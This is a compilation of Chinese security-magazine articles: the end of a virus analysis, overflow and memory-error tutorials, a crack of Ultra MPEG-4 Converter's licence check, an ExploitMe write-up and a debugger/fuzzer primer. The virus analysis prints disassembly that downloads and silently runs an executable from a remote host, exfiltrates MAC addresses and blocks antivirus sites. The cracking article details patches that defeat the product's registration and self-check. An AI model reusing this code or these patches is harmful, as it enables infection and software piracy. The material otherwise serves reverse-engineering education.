每隔 10 分钟到 `http://www.liuliangvip.cn/down/update.ini` 将 `update.ini` 文件下载到 `C:\WINDOWS\meupdate.ini` 中，并且和 `http://www.liuliangvip.cn/22.lxt` 做比较，如果不同，则将 `http://www.liuliangvip.cn/down/mm.exe` 下载到 `c:\default.pif` 更新病毒程序，代码如下：

```asm
00405AA8  68 C0270900   push 927C0      ; 10 分钟
00405AAD  FF15 AC104000 call dword ptr [<KERNEL32.Sleep>]
00405AB3  68 A01C4000   push 00401CA0
ASCII "http://www.liuliangvip.cn/down/mm.exe"

...（保存到本地文件并构造 URL）...
ASCII "C:\WINDOWS\meupdate.ini"
ASCII "http://www.liuliangvip.cn/down/update.ini"
urlmon.URLDownloadToFileA

...（fgets 读出 meupdate.ini 文件）...
...（比较文件前 3 个字符和 '22'）...
```

```asm
00405A4A  jnz short 00405A66
...
00405A6F  push edi
00405A70  push edi
00405A71  push 00401DA4 ; "c:\default.pif"
00405A76  push dword ptr [ebp+8]
; "http://www.liuliangvip.cn/down/nnm.exe"
00405A79  push edi
00405A7A  call dword ptr [407504] ; URLDownloadToFileA
...
00405ABE  push 0 ; SW_HIDE
00405AC0  push esi
00405AC1  call dword ptr [<&KERNEL32.WinExec>]
00405AC7  jmp short 00405AA8
```

## 线程十四：00405AC9 处

修改 host 文件，获得 `%ProgramFiles%` 的环境变量，代码如下：

```asm
00405AEC  push 0FF ; DestSizeMax=FF(255)
00405AF1  push eax ; DestString
00405AF2  push 004028AC ; SrcString="%ProgramFiles%"
00405AF7  call dword ptr [<&KERNEL32.ExpandEnvironmentStringsA>]
...
00405B25  push 80 ; FileAttributes=NORMAL
...
00405B48  push eax ; FileName="C:\WINDOWS\system32\drivers\etc\hosts"
00405B49  rep movs byte ptr es:[edi], byte ptr [esi]
00405B4B  call dword ptr [<&KERNEL32.SetFileAttributesA>]
```

接着查找 `\\drivers\etc\hosts` 文件，写入如下数据：

```text
127.0.0.2 360.qihoo.com
...
127.0.0.1 dl.jiangmin.com
127.0.0.1 jiangmin.com
```

当每次输入上面的网址时，都会定向到 127.0.0.1，屏蔽了安全厂商的网址。并且每秒执行一次，防止 host 文件被改回去。

## 线程十五：00405467 处

搜集被感染主机的 mac 地址，并把被感染主机的 mac 地址和感染的病毒版本发送给 `http://www.liuliangvip.cn/down/fj/ct.asp` 页面，代码如下：

```asm
0040549B  push 00402270 ; mode="r"
...
004054BE  push eax ; path="C:\WINDOWS\mfxixue.ini"
004054BF  rep movs byte ptr es:[edi], byte ptr [esi]
004054C1  call <jmp.&MSVCRT.fopen>
...
004054CF  push 00401A98 ; "http://www.liuliangvip.cn/down/fj/ct.asp"
004054D4  push 1
```

```asm
004054D6  call 00405387
{
  00405387 push ebp
  00405392 push 0 ; timer=NULL
  00405394 call <jmp.&MSVCRT.time>
  00405399 push eax ; seed
  0040539A call <jmp.&MSVCRT.srand>
  ...
  004053FD push 00402830 ; format="%s?mac=%s&ver=2.1"
  00405403 call <jmp.&MSVCRT.sprintf>
  ...
  00405427 call dword ptr [<&WININET.InternetOpenA>]
  ...
  00405440 call dword ptr [<&WININET.InternetOpenUrlA>]
  ...
  0040544A mov esi, dword ptr [<&WININET.InternetCloseHandle>]
  ...
  00405419 ret
}
```

## 扫尾

删除两个跟安全模式有关的注册表项：`SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal` 和 `SYSTEM\CurrentControlSet\Control\SafeBoot\Network`，当用户想进入安全模式清除病毒时，进不了安全模式，这招也很毒。

至此，病毒的全部行为都已经分析完了，病毒的行为真多，要彻底清除该病毒是一个大工程！分析过程中遇到了一些困难，但还是一一解决了，通过分析这个病毒，收获颇丰，感受到了病毒制造者的智慧。由于篇幅关系，没有给出该病毒的专杀，可能会在之后继续完善。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：漏洞挖掘、汇编、溢出

# 漏洞挖掘的原理和思路


文/图 woosheep

漏洞利用已经不是一个新话题了，形如以 MS 开头，后面跟一串数字的漏洞利用工具，已经为大家谋了不少福利。只是，用着别人编写的程序，总不是那么心安理得，这些大大小小或轻或重的漏洞，到底是怎样被发现的，又能被怎样利用呢？

先来讨论一个前置问题，为什么会有漏洞？教科书上千篇一律地说，是因为程序对输入的过滤不严。听起来倒是很像 SQL injection，在过滤不严的网页 URL 或者查询类的栏目上加几个符号和字母，就可以枚举管理员的账号和密码。然而，漏洞和 SQL injection 其实并不存在原理性的混淆。SQL injection 产生的本质是网页前台需要通过传输 SQL 查询字符串，获取后台数据库的结果，SQL injection 的过滤不严，是后台程序没有区分出前台传回的 SQL 字符串，究竟是真的来源于前台网页请求，还是由用户出于某种用心特意构造的呢？而对于漏洞，则根本不存在什么前台后台的问题。

我们知道，进程也即正在执行的程序，是存在于内存之中的（这里的内存指逻辑上的内存，不区分具体在物理内存上还是在虚拟内存上），而这个程序与外界交互的数据，同样是被保存在同一片内存之中。简单来说，就是从内存的角度看，代码和数据都是由 0 和 1 构成的二进制流，没有任何的不同。内存中的任何二进制信息只要被 CPU 获取，直观一点，就是它的内存地址被读入指令寄存器，那么计算机就会把它作为指令进行译码和执行。而一段作为数据输入，却希望作为指令执行的二进制流，就是常说的 ShellCode。

可见，漏洞的原罪是冯·诺依曼体系结构。这样说可能对这位无可非议的计算机之父有所不敬，但事实依然是所有采用冯·诺依曼体系结构的计算机中的指令和数据，仅仅只有逻辑上的区别。如果当初选择把指令和数据进行物理分离，那恐怕时下横飞的漏洞就要被扼杀在萌芽状态——至少通过堆栈溢出的漏洞是不可能存在的。

出现了一个新名词，堆栈溢出。好吧，或许溢出已经沦为大众脸了。只是，该如何解释什么是溢出呢？很简单，就是在一个杯子里倒水，满了还是继续倒，流出来的那些就叫溢出。这是生活中的一个例子，却正是溢出的原型。

只不过将水换成了二进制数据，杯子换成了保存数据的 Buffer。编程中，Buffer 是很常见的，输入输出都可能用到，其实质是一块再普通不过的内存区域。同时，Buffer 不是一个神话中的名词，它是受实际限制、有具体大小的。在 32 位的机器中，再厉害的 Buffer，最大也只有 4GB，这还是一个理论值，实际能作为 Buffer 的内存空间要小得多。如果我们用一个 17 字节大小的 Buffer 保存一个 18 字节大小的数据，那多出来的 1 个字节就是溢出。水溢出了，可以流出来，可是数据不行，数据不可能从内存条上蹦出来。在 x86 的保护模式下，内存地址是线性的，就是说内存地址从 0 到 4GB 编号。如果某一段内存发生了溢出，那多出来的数据，就会顺延覆盖下一段内存。作为用户，本来只能操作 Buffer 范围内的数据，但如果程序过滤不严格，利用溢出就可以使越界修改内存成为可能。

溢出是一切罪恶的原点。现在，我们知道了输入数据不但可以用来执行，还可以用来越界修改邻接内存，那么，离成功利用漏洞只差最后一步：获取执行权。

不知道看到这里，会不会有朋友在想，既然输入可以越界修改内存，又可以执行，那直接修改指令寄存器将要执行的内存地址，是不是就大功告成了？我很确定地告诉你，是的，理论上可行。但是，当代操作系统的设计者们也深深地明白冯·诺依曼体系结构的软肋，他们一直致力于从软件层面隔离代码和数据。例如，Linux 和 Windows 的内存管理，都设置了读、写和执行的属性（若是在 x86 平台，这种属性可以获得硬件级的支持）。此外，在进程的数据结构上，也做了精心的调整，我们可以利用调试器做具体观察，代码的内存地址多为 `0x004XXXX`，而输入数据则多是保存在 `0x0012XXXX` 的地址中。理论上我们确实可以利用溢出一路覆盖过去，然而从灵活性和实用性等方面考虑，这条路不太容易走通。

难道要找到数据和代码的交集就这么难吗？不是的。`0x0012XXXX` 是什么地址？堆栈的地址。我们知道，堆栈准确来说只是栈，英文名为 stack，是一个后进先出（FILO）的数据结构。栈的用途很多，它可以用来保存函数的调用参数，保存函数的局部变量，以及保存函数的返回地址。

这里我们看到，栈里没有我们想要的东西，但别忘了有句成语，叫殊途同归。我们希望找到一个地方，在那里指令寄存器会读取到我们输入数据的内存地址……即执行到 ret 这类指令，EIP 会获取 ESP 所指向的内存地址的值。

那么，问题就转化为如何修改执行 ret 指令时 ESP 所指向的内存地址的值……这样，我们的 ShellCode 就可以获得执行。

说了这么多，估计大家都看晕了……那么，为了避免重蹈覆辙，我们以一个最简单、完全可以号称漏洞挖掘界的“helloWorld”来下手。

程序的代码很简单，功能是获取一个输入字符串，然后输出。

```c
#include <stdio.h>
main()
{
    char s[6];
    scanf("%s", s);
    printf("%s", s);
}
```

可以看出，字符串被保存在字符数组当中，这就是一个 6 字节的 Buffer……一直输入到了 8 个字符，程序依然表示淡定。好了，输入增加到了 9 个字符，按 Enter 键，程序崩溃了，如图 1 所示。


图 1

可以观察到，崩溃之前，输入的 9 个字符居然还是正常输出了！如果没有前面的分析，这种现象是不是只能用诡异来解释了？

好了，相信你一定已经有了初步的猜测，现在让我们从反汇编的角度确认一遍，反汇编代码如下：

```asm
.text:00401000  sub  esp, 8
.text:00401003  lea  eax, [esp+8+var_8]
.text:00401007  push eax
.text:00401008  push offset Format ; "%s"
.text:0040100D  call _scanf
```

```asm
.text:00401012  add  esp, 8
.text:00401015  lea  ecx, [esp+8+var_8]
.text:00401019  push ecx
.text:0040101A  push offset Format ; "%s"
.text:0040101F  call _printf
.text:00401024  add  esp, 10h
.text:00401027  retn
```

当程序调用 scanf 之后，就有可能发生溢出。但由于溢出数据覆盖的只是函数的返回地址，因此在 retn 之前的代码仍能正常执行……我们先从 `sub esp, 8` 理解局部变量分配。

无论如何，这样就能解释为什么输入超过 5 个字符后程序还能正常运行。那么，既然事实上也只有 8 个字符，为什么输入 8 个字符时还能正常运行呢？我们先看一下输入 7 个字符时栈的情况：

```text
0012FF7C  34333231
0012FF80  00373635
0012FF84  0040112C  返回到 <ModuleEntryPoint>
```

这是 Buffer 刚好达到饱和的状态，`\0` 恰好是 Buffer 的内存空间的最后一个字符……再看一下输入 8 个字符时栈的情况：

```text
0012FF7C  34333231
0012FF80  38373635
0012FF84  00401100
```

这时已经发生了溢出，可以看到，`\0` 覆盖了返回地址的最后一位，返回地址变成了 `00401100`……虽然溢出位只有一位，但也可获得最大 256 个字节的跳转范围。

言归正传，我们看到，多输入一位就已经对返回地址产生影响，只是 `00401100` 处恰好有可执行代码才没有立即崩溃。要想完成溢出，只要从第 9 位开始逆序输入 ShellCode 的起始地址即可。

不过，现在还有最后一个问题，栈的地址是由操作系统决定的……这时，我们就需要一个跳板（间接跳转指令）……到这里，我们已经初步讨论了漏洞的形成、挖掘和利用。

前置知识：VC  
关键词：内存、read、written

# 浅析“内存不能为 read/written”


文/woosheep

内存错误并不罕见，而某处“内存不能为 read/written”则更为常见。错误产生的原因，主要分为硬件和软件两种。硬件原因通常与内存条和主板的内存插槽有关，而软件原因，则是与 Windows 操作系统的设计架构有关。

我们知道，基于 x86 架构的计算机，是根据冯·诺依曼提出的体系搭建的，其特点之一包括运行代码和运算数据共享同一片内存空间。从效率的角度看，可以减少 IO 以及调度开销，简化了执行流，这对计算机性能是一大提高；但从操作系统安全的角度来看，也带来了风险。

现代操作系统（如 Windows 和 Linux）提出了软件级别的解决方案：给内存赋予属性，包括可读（READ）、可写（WRITE）以及可执行（EXECUTE）等。Windows 对内存属性的设置可通过 VirtualAlloc 等 API 观察。

```c
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD flAllocationType,
  DWORD flProtect
);
```

其中第四个参数 flProtect 用来设定申请内存的属性，也叫内存访问类别。常见的有 PAGE_READONLY（只读）、PAGE_READWRITE（可读写）、PAGE_EXECUTE_READ（可读并执行）等。当程序对不具备写属性的内存区域执行写操作时，就会报出“内存不能为 written”的错误。

```c
#include <windows.h>
main()
{
    BYTE* p = (BYTE*)VirtualAlloc(NULL, 4,
        MEM_RESERVE | MEM_COMMIT, PAGE_READONLY);
    *p = 1;
}
```

然而，从内存属性设置来看，基本都包含了读属性（至少是 PAGE_READONLY），为什么还会有“内存不能为 read”的错误？这是因为 Windows 的内存划分包括用户内存空间和系统内存空间，通常各为 2GB 左右。用户进程通常无法直接访问系统空间。

系统空间用于运行 Windows 内核及驱动等组件。为保证系统安全，CPU 在运行用户空间代码时处于 Ring3，无法对 Ring0 级别内存进行读写操作。因此，当程序试图读取高地址（或无权限地址）时，就可能触发“内存不能为 read”错误。

```c
#include <windows.h>
main()
{
    BYTE* p = (BYTE*)VirtualAlloc(NULL, 4,
        MEM_RESERVE | MEM_COMMIT, PAGE_READONLY);
    p = p - 1;
}
```

实际编程中，由于指针所引用的内存地址不合法或权限不足（常称“野指针”），会导致程序异常崩溃，也是“内存不能”类错误的主要诱因之一。遇到这类错误时，指针应作为重点排查对象。

此外，有些程序作者会利用上述特性，在输入错误注册信息后故意将指针引向会触发异常的地址。现象本身是客观存在的，关键在于如何理解和利用它。

前置知识：汇编  
关键词：破解、自校验

# 破解码的二连击

文/图 woosheep

Ultra MPEG-4 Converter 是一款视频格式转化软件，试用版在开始运行时，会弹出一个提示注册框，按惯例单击“Register”按钮，弹出错误提示，如图1所示。


图 1

```asm
00434E52  8B07          mov eax, dword ptr [edi]
00434E54  50            push eax
00434E55  8D4C2414      lea ecx, [esp+14]
00434E59  6814F04900    push 0049F014
...
00434E6D  8D542428      lea edx, [esp+28]
00434E71  52            push edx
00434E72  6A00          push 0
00434E74  E8...         call 00445F80
```

看来像正确分支。照旧把 jnz 改为 jmp，单击注册，提示注册成功。保存修改后运行却失败，分析为程序存在自校验，且在初始化阶段触发。进一步讨论了定位自校验代码、断点方式与读文件相关 API 调试问题。

闻声识人，看到错误提示就可以开始破解了。先用 PEiD 查壳，显示“什么都没找到”。OD 载入后发现入口是：

```asm
00474B3A  E855E20000    call 00482D94
00474B3F  E916FEFFFF    jmp 0047495A
```

入口点与常见形式略有区别。文中说明 VS2005 以后 VC 编译器常以 call+jmp 开始，先经过 security_init_cookie，再到常见 OEP 布局。随后搜索字符串“invalid license name or license code”，定位到关键分支跳转。

```asm
00434E25  752B          jnz short 00434E52
00434E27  50            push eax
00434E28  6A10          push 10
00434E2A  6878BC4900    push 0049BC78
00434E2F  683CF04900    push 0049F03C ; "invalid license name or license code"
...
```

有没有更简洁的方法呢？将 OD 设为不忽略任何异常，直接按 F9 让程序跑到崩溃处，定位到如下代码：

```asm
003D1D19  A1EC433E00    mov eax, dword ptr [...]
003D1D1E  53            push ebx
003D1D1F  56            push esi
003D1D20  57            push edi
...
003D1D2A  33C0          xor eax, eax
003D1D2C  8D542430      lea edx, [esp+30]
003D1D30  F2AE          repne scas byte ptr es:[edi]
```

edi 指向了一个非法的内存区域，导致程序崩溃。而从上面代码分析可知，edi 的取值，是由 3E43EC 处一个大小为 DWORD 的值决定的。在程序崩溃时，这个值为 0，而在未爆破的程序中，运行到此处时该值为 00303BA8。看来 3E43EC 处的取值是程序是否崩溃的关键，那就对 3E43EC 下硬件写入断点，追踪一下这个值的来源。这个值曾被多次改写，最后跟到这里：

```asm
003D1388  74 0D        je   short 003D1397
003D138A  5F           pop  edi
003D138B  5E           pop  esi
003D138C  5D           pop  ebp
003D138D  33C0         xor  eax,eax
003D138F  5B           pop  ebx
003D1390  81C4 000C0000 add esp,0C00
003D1396  C3           retn
003D1397  5F           pop  edi
003D1398  892D EC433E00 mov dword ptr [3E43EC],ebp
```

003D1388 处的 je 直接决定了 3E43EC 中的值是否为 0。为了贯彻爆破精神，这里就不深究原因了，将 je 改为 jmp，保存。需要注意的是，这里处于 appsys.dll 的空间，修改后的 DLL 必须与原 DLL 同名才能被程序载入。重新运行，又报错了，如图 2 所示。有提示框就好，继续用字符串搜索，发现程序是调用 00435390 处的函数来弹出这个提示框。这个函数被好几个地方调用，一一断，用排除法，最后来到这里：


图 2

```asm
004355D2  7513        jnz short 004355E7
004355D4  E8A7560100  call <jmp.&AppSys...>
004355D9  50          push eax
004355DA  E80173FFFF  call 0042C8E0
004355DF  83C404      add  esp,4
004355E2  E9A9FDFFFF  jmp  00435390
```

如果 004355D2 处的 jnz 不跳走，就会执行到 004355E2，跳转去 00435390 处的弹框函数。把它改为 jmp 就不会弹出错误提示框了。现在，自校验的暗桩基本就都挖完了。运行修改后的程序，还是弹出注册提示框，不过这时任意的输入都会提示正确。当然，留着提示框总是算不上完美破解，这个 Nag 就留给大家补最后一刀吧。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：ExploitMe、汇编、破解

# 开拓思路解 ExploitMe

文/图 woosheep


这个 ExploitMe，是看雪比赛的一道题目，要求 ShellCode 的非 0 数据尽可能地少。据说最小的只有两字节，实在让人叹为观止。所以这里，我只敢斗胆分享一下我挖掘这个 ExploitMe 漏洞的思路。

先双击运行，ExploitMe 没有任何界面，直接弹出一个错误提示框，看来应该是读文件进行判断了。OD 载入，断 CreateFile，来到这里：

```asm
0040104B  53           push ebx ; hTemplateFile=NULL
0040104C  68 80000000  push 80  ; dwFlagsAndAttributes
00401051  6A 04        push 4   ; dwCreationDisposition=OPEN_ALWAYS
00401053  53           push ebx ; lpSecurityAttributes=NULL
00401054  6A 01        push 1   ; dwShareMode=FILE_SHARE_READ
```

```asm
00401056  68 00000080   push 80000000 ; GENERIC_READ
0040105B  68 30604000   push 00406030 ; lpFileName
00401060  8BE8          mov ebp,eax
00401062  FF15 1C504000 call dword ptr [CreateFileA]
00401068  8BF0          mov esi,eax
0040106A  83FEFF        cmp esi,-1
0040106D  89742418      mov [esp+18],esi
00401071  0F84...       jz  0040117C
00401077  53            push ebx ; lpFileSizeHigh=NULL
00401078  56            push esi ; hFile
00401079  FF15 18504000 call dword ptr [GetFileSize]
0040107F  8BD8          mov ebx,eax
00401081  81FB 00020000 cmp ebx,200
```

为什么不直接断 ReadFile？这是因为 ReadFile 是通过传递句柄进行调用，如果不断唯一包含程序路径的 CreateFile，是不知道读取哪个文件的。上面的代码告诉我们，程序首先打开一个 exploit.dat 文件，然后获取它的大小。如果这个文件的大小大于 0x200，则直接跳走不进行读取。

那么，我们就发现了第一条线索：需要构造一个包含 ShellCode 的 exploit.dat 文件作为程序的输入，大小不能超过 0x200。

根据最基本的溢出想法，我们希望尽可能多地输入，最终覆盖函数的返回地址。能不能成功呢？这时函数的返回地址在 0x12FF44，而程序调用 ReadFile 时，Buffer 的起始点在 0x12FD44，刚好相差 0x200。结合我们发现的第一条线索，可能得出结论：在 exploit.dat 允许的最大输入内，ShellCode 是无法覆盖函数的返回地址的。

这真是矛盾，能不能把这个 0x200 给 nop 掉呢？如果是破解，当然可以，但溢出则不行。破解和溢出二者最大的差别，我认为在于能不能“看”到程序。要溢出的程序，往往在远程计算机上，而我们能做的仅仅只有上传一个文件，是没有办法实际修改程序的。

难道真没有溢出点？正如上面所说，整个程序，在控制范围内的只有这个输入。如果这个程序对这个输入的使用，仅仅到此为止，那我们真的就一筹莫展了。然而，接着往下看程序，惊喜地发现程序对 Buffer 的数据进行了接力式的传递，第一棒是 0x1330590，第二棒是 0x12FC40，显然这个地址在栈中，复制代码如下：

```asm
004010F5  cmp edx,84
004010FB  mov dword ptr [408514],eax
00401100  ja short 00401118
00401102  mov ecx,ebx
00401104  mov esi,ebp
00401106  mov eax,ecx
00401108  lea edi,dword ptr [esp+24]
```

```asm
0040110C  shr ecx,2
0040110F  rep movs dword ptr es:[edi],dword ptr [esi]
```

如果 exploit.dat 的大小超过 0x84，则不会执行这段复制。类似的复制还有几次，不过，仍然没有一个能够覆盖返回地址。

难道还是没戏？我们先稍微回想一下，为什么要覆盖返回地址？因为返回地址在栈中，而输入数据也在栈中，我们可以通过栈溢出来覆盖返回地址，从而控制程序的执行流——这才是最本质的目的。

现在，我们的问题就变成了：被保存在栈中的数据，是否只有返回地址才会影响程序的执行流？当然不是，还有间接跳转——这是个新的思路，意味着新的突破口！不过，程序里也没有找到间接跳转，但是，找到了间接跳转的近亲，间接调用：

```asm
00401152  mov eax,dword ptr [esp+20]
00401156  lea ecx,dword ptr [esp+20]
0040115A  call dword ptr [eax]
0040115C  mov edx,dword ptr [esp+A4]
00401163  lea ecx,dword ptr [esp+A4]
0040116A  call dword ptr [edx]
```

这里有两处间接调用，函数地址均保存在栈中，栈地址分别是 0x12FC3C 和 0x12FCC0。还记得 Buffer 传递第二棒的地址吗？是 0x12FC40。0x12FC3C 在它之上，不合适；但 0x12FCC0 在它之下，而且偏移距离没有超出 0x84。我们恭喜 0x40116A 处的间接调用，它很荣幸地成为了一个合格的溢出点。

取得控制权后，接下来的 ShellCode 就不具体展开了。当然，或许这还不是唯一的溢出点，有兴趣的朋友可以访问查看，围观大牛们的各显神通，将开拓思路进行到底。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：智能调试、Fuzzer

# 智能调试和内存 Fuzzer


文/Vishwas Sharma, Amandeep Bharti, Pratik Agarwal  
译/dragonltx

## 通用 CPU 寄存器

从处理器的一些寄存器的基本介绍开始；我们将简要接触用户模式调试的话题，然后发扬光大博学的 Python 里存在的各种各样的脚本调试库的调试观念。进一步地，我们会讨论一些可以用这些脚本调试器实现的 fuzzing 技术，尤其是内存 fuzzing 技术。

存储器是昂贵的，而且我们只有 6 个通用寄存器，即 EAX、EBX、ECX、EDX、ESI 和 EDI；以及 3 个特殊寄存器，即 EBP、ESP 和 EIP 控制程序的流程，我们将会简要解释它们中的每个。EAX 是扩展累加寄存器，它是专用的累加寄存器，具有特殊的 1 字节机器码。一些操作，如乘法、除法等，只能在累加器中发生。

EBX：扩展基址寄存器，在 16 位模式下是基址寄存器，EBX 可以充当一个索引。在 32 位模式下，它充当一个通用寄存器。EBX 是唯一一个没有专用目的的寄存器。

ECX：扩展计数寄存器，这个寄存器可以用作循环计数器。这个寄存器决定循环重复的最大次数。ECX 是循环计数器的首选，尤其在其周围有分支操作时。

EDX：扩展数据寄存器，数据寄存器；EDX 是一个大部分和累加器捆绑的通用寄存器。在一些操作中，如乘法、除法等，最高有效位保存在数据寄存器，最低有效位保存在累加器中。数据寄存器最常用的用途是在累加器运算中用来存储数据。

通用寄存器可以被“劈开”。AX 包含 EAX 的低 16 位。同样地，AX 可以被劈开为 AH 和 AL 寄存器。AH 包含 AX 的高字节，AL 包含 AX 的低字节。

## 2. 索引寄存器

EDI：扩展数据索引。每个循环产生的数据必须将结果存入内存，这样做需要一个移动的指针。目的地索引 EDI 就是那个指针。目的地索引保留所有字符串操作的写入地址。EDI 用作全局写入指针。

ESI：扩展源索引；源索引；ESI 跟目的地索引有同样的性能。唯一的不同点是源索引是用作读而不是写。我们可以用源索引寄存器做存储，以防万一没有读。

## 3. 指针寄存器

这两个寄存器是函数调用机制的灵魂。在一个函数调用中，参数和返回地址必须被入栈。当前的 EBP 值入栈，EBP 等于当前的 ESP。这样传递给函数的局部变量和参数可以简单地访问。接着，函数引用它的参数和变量是相对于基址指针而不是栈指针。

ESP：扩展基址指针，这个寄存器用来引用函数参数和程序的局部变量，它也叫做框架指针。  
EIP：扩展指令指针，它包含指令指针或者程序计数器。

## 调试

## 附加到进程

为了调试一个正在运行的进程，我们不得不找到句柄然后打开进程。Kernel32.dll 提供了 OpenProcess() 函数来帮我们，OpenProcess() 获得一个句柄，并且可以在读进程内存或者写进程内存，当然调试进程时也可以用到。

```c
typedef struct _DEBUG_EVENT {
    DWORD dwDebugEventCode;
    DWORD dwProcessId;
    DWORD dwThreadId;
    union {
        EXCEPTION_DEBUG_INFO Exception;
        CREATE_THREAD_DEBUG_INFO CreateThread;
        CREATE_PROCESS_DEBUG_INFO CreateProcessInfo;
        EXIT_THREAD_DEBUG_INFO ExitThread;
        EXIT_PROCESS_DEBUG_INFO ExitProcess;
        LOAD_DLL_DEBUG_INFO LoadDll;
        UNLOAD_DLL_DEBUG_INFO UnloadDll;
        OUTPUT_DEBUG_STRING_INFO DebugString;
        RIP_INFO RipInfo;
    } u;
} DEBUG_EVENT, *LPDEBUG_EVENT;
```

OpenProcess 负责打开进程，因此我们能分析和增加断点：

```c
HANDLE WINAPI OpenProcess(
    in DWORD dwDesiredAccess,
    in BOOL bInheritHandle,
    in DWORD dwProcessId
);
```

DebugActiveProcess 这个函数负责附加自己到我们要调试的进程：

```c
BOOL WINAPI DebugActiveProcess(
    in DWORD dwProcessId
);
```

WaitForDebugEvent 函数调用将会返回 DEBUG_EVENT 结构，并且这个结构里面用有关的信息填充：

```c
BOOL WINAPI WaitForDebugEvent(
    out LPDEBUG_EVENT lpDebugEvent,
    in DWORD dwMilliseconds
);
```

ContinueDebugEvent 在收到 DBG_CONTINUE 状态后将会继续：

```c
BOOL WINAPI ContinueDebugEvent(
    in DWORD dwProcessId,
    in DWORD dwThreadId,
    in DWORD dwContinueStatus
);
```

DebugActiveProcessStop API 调用将会停止进程被调试：

```c
BOOL WINAPI DebugActiveProcessStop(
    in DWORD dwProcessId
);
```

这个函数可以用来描述调试事件。现在，为了填充这个结构，我们用 Windows kernel32.dll 的 API 调用 WaitForDebugEvent 函数。这个函数会等待被调试进程里面的一个调试事件发生。

### 调试事件的基础

一个调试器会不断地等待一个调试事件的发生。调试事件发生时，一个事件处理函数被调用，然后程序循环终止来使处理函数处理它的请求。

一旦一个事件处理函数被调用，调试器停止，然后等待处理函数做出决定该如何继续进行。一些必须被一个调试器触发的事件是：

- 碰到断点；
- 内存违例（也叫做访问违例或者段错误）；
- 被调试程序产生的异常；

每个操作系统有它自己分配这些事件给调试器的方式。在一些操作系统上，像线程或者进程创建，或者动态链接库的加载，这些事件也会触发。

脚本式调试器有一个额外的优势，它允许创建自定义事件处理函数来自动操作特定的调试任务。举个例子，缓冲区溢出是内存违例的一个常见原因，并且黑客对此很感兴趣。在一个常规的调试中，如果有缓冲区溢出和内存违例发生，你必须和调试器互动，然后手动捕捉你感兴趣的信息。通过一个脚本式调试器，你可以创建一个处理函数，自动将所有的相关信息收集起来。创建这些自定义的处理函数不仅节约时间，而且能够使我我们尽可能大尺度控制被调试的进程。

## 1. 断点的概念

断点是开发者调试一个进程时最常用的特征。断点按字面提示是调试时你可以停止或者中断进程的点。在期望的步骤停止进程，开发者可以记录变量、栈参数和内存分布的信息。有三种主要的断点类型：软中断、硬中断和内存中断。它们每个有很相似的行为，但是它们是按不同的方式实现的。

### 2. 软中断

软中断是至今为止一个 exploit 开发者在调试进程时最常用的断点类型。当执行指令时，软中断是特别地用来停止 CPU。一个软中断是一个单字节指令，INT3 停止被调试进程的执行，然后将控制权传给调试器的断点异常处理函数。为了理解这是如何工作的，你必须理解 x86 汇编中一个指令和一个机器码的区别。

一个汇编指令是一个 CPU 要执行的命令的高级别代表。一个例子是：

```asm
ADD ESP, 24
```

这条指令告诉 CPU 将储存在 ESP 寄存器中的值加上 24。无论如何，CPU 不知道怎么解释那个指令；它必须被转化为一些叫做机器码的东西。一个操作代码或者机器码是 CPU 执行的机器语言命令。举例而言，让我们将先前的指令转化为本地机器码：

```
83C4 24
```

正如你看到的，这使事实更混淆了，但是 CPU 理解的语言。指令使我们更容易记住被执行的命令，而不是去记住所有的单个机器码。一个开发者在每天的调试中几乎不会用到机器码，但是它们对理解软中断是很重要的。

如果指令在 `0x43214321` 地址处，一个通常的表示形式是这样的：

```
0x43214321: 83C4 24 ADD ESP, 24
```

这显示了地址、机器码和高级别汇编指令。为了在这个地址设一个软中断并且停止 CPU，我们不得不从 2 字节 `83C4` 机器码中换出一个单字节。这个单字节代表中断向量 3（INT3）指令，告诉 CPU 要停止。INT3 指令转化为单字节机器码是 `0xCC`。这是我们之前的例子，设置一个断点之前和之后。

断点设之前的机器码：

```
0x43214321: 83C4 24 ADD ESP, 24
```

断点设之后的机器码：

```
0x43214321: CCC4 24 [extra byte from next opcode] LES ESP, FWORD PTR DS:[EAX+EBP*2]
```

你可以看到我们已经将 `83` 字节换成一个 `CC` 字节。当 CPU 碰到那个字节，它停下来，产生一个 INT3 事件。调试器有内置的能力来处理这个事件，但是由于我们要设计自己的调试器，理解调试器怎样做是不错的。当调试器被告诉要在一个期望的地址设置一个断点时，它读取被要求地址的第一个机器码然后存储起来。然后调试器在那个地址写入 `CC` 字节。当 CPU 解释 `CC` 机器码时，一个断点或者 INT3 事件被触发，调试器就捕捉到它。然后检查指令指针（EIP 寄存器）是否指在它先前设断点的地址。如果地址在调试器的内部断点列表中找到，它将存储的字节写回那个地址，将 EIP 设成 `EIP-1`，然后在进程恢复后机器码可以正确地执行。

### 3. 硬中断

Intel 处理器有它自己调试代码的方式。它用特别的叫做 DR 的寄存器，或者调试寄存器（Ludvig）来实现。总共有 8 个这样的寄存器，它们有自己的方式来处理断点和异常触发。DR0 和 DR3 是用来存储断点的特殊寄存器。DR4 和 DR5 保留寄存器，没有特殊功能。DR6 是控制硬件调试开关的按钮。最重要的调试寄存器是 DR7，如图 1 所示。


DR7：图 1 里显示的调试控制寄存器，帮助定义调试条件和有选择性地启用和禁用这些条件。

- 00：只在指令执行时中断；
- 01：只在数据写入时中断；
- 10：未定义；
- 11：在数据读或者写时中断，但不是取指令时。

- 00：1 字节长；
- 01：2 字节长；
- 10：未定义；
- 11：4 字节长。

每个在 DR0-DR3 寄存器中的地址，相应的字段 R/W0 到 R/W3 指定了导致断点的动作类型。字段 LEN0 到 LEN3 指定了要监视的数据项的长度。可能指定为 1、2 或者 4 字节长。长度字段的值按上面的方式解释。

如果 RWn 是 00（指令执行），那么 LENn 应该也是 00。其他长度是未定义的。

DR7 的低 8 位（L0 到 L3 和 G0 到 G3）有选择地启用 4 地址断点条件。有两种级别的启用：局部（L0 到 L3）和全局（G0 到 G3）级别。在任务转换时，为了避免新任务中不想要的断点条件，局部启用位会被处理器自动复位。全局启用位在任务转换时不会被复位；因此，它们可以用做所有任务的全局条件。

LE 和 GE 位控制处理器的“精确数据断点匹配”特征。如果 LE 或者 GE 中一个设定，处理器减慢执行，因此数据断点在产生它们的指令上报到。建议设置这些位中的一个，无论是否有数据断点。处理器在任务转换时清除 LE，但是不会清除 GE。

想更深入这个话题可以研究 Intel x86 处理器手册。

